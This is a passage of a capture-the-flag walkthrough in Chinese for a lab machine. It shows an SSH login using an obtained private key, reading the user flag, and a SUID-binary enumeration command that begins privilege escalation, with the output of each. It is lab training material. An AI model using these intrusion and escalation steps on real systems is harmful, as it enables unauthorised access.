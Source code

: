 
使用此 id_rsa 私鑰成功登入 ssh
```!=
└─$ ssh -i id_rsa kenobi@10.201.110.192
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 22 Oct 2025 02:01:52 AM CDT

  System load:  0.03              Processes:             123
  Usage of /:   62.2% of 8.76GB   Users logged in:       0
  Memory usage: 17%               IPv4 address for eth0: 10.201.110.192
  Swap usage:   0%

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

40 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 20.04 at
https://ubuntu.com/20-04


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Sat Aug  9 07:57:51 2025 from 10.23.8.228
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 

```

取得 user.txt
```!=
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0...99
```

## 提權

掃描 s 權限的檔案
```!=
kenobi@kenobi:~$  find / -perm -u=s -type f 2>/dev/null
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
